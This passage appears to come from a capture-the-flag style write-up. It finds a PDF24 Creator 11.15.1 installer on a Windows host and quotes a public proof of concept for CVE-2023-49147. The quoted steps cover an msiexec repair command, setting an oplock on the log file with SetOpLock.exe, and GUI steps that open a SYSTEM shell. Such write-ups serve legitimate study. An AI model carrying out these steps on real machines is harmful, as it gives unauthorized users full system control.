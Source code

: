 Inside the directory I found the file `pdf24-creator-11.15.1-x64.msi` which was used for installing `PDF24`.

```c
PS C:\_install> dir
dir


    Directory: C:\_install


Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
-a----        12/28/2023  11:21 AM       60804608 Firefox Setup 121.0.msi        
-a----        12/28/2023   5:39 AM       43593728 mRemoteNG-Installer-1.76.20.24615.msi
-a----        12/14/2023  10:07 AM      462602240 pdf24-creator-11.15.1-x64.msi
```

## Privilege Escalation 

### CVE-2023-49147: PDF24 Creator 11.15.1 Local Privilege Esclation

I did some research on it and found a matching `Local Privilege Escalation (LPE)` on `Packet Storm`. Good stuff indeed.

- [https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html)

```c
Proof of concept:
-----------------
1) Local Privilege Escalation via MSI installer (CVE-2023-49147)
For the exploit to work, the PDF24 Creator has to be installed via the MSI file.
Afterwards, any low-privileged user can run the following command to start the
repair of PDF24 Creator and trigger the vulnerable actions without a UAC popup:

msiexec.exe /fa <PATH TO INSTALLERFILE>\pdf24-creator-11.14.0-x64.msi

At the very end of the repair process, the sub-process pdf24-PrinterInstall.exe gets called with SYSTEM privileges and performs a write action on the file
"C:\Program Files\PDF24\faxPrnInst.log". This can be used by an attacker by simply setting an oplock on the file as soon as it gets read. To do that, one can use the 'SetOpLock.exe' tool from "https://github.com/googleprojectzero/symboliclink-testing-tools"
with the following parameters:

SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r

If the oplock is set, the cmd window that gets opened when pdf24-PrinterInstall.exe is executed doesn't close. The attacker can then perform the following actions to spawn a SYSTEM shell:
- right click on the top bar of the cmd window
- click on properties
- under options click on the "Legacyconsolemode" link
- open the link with a browser other than internet explorer or edge (both don't open as SYSTEM when on Win11)
- in the opened browser window press the key combination CTRL+o
- type cmd.exe in the top bar and press Enter
```

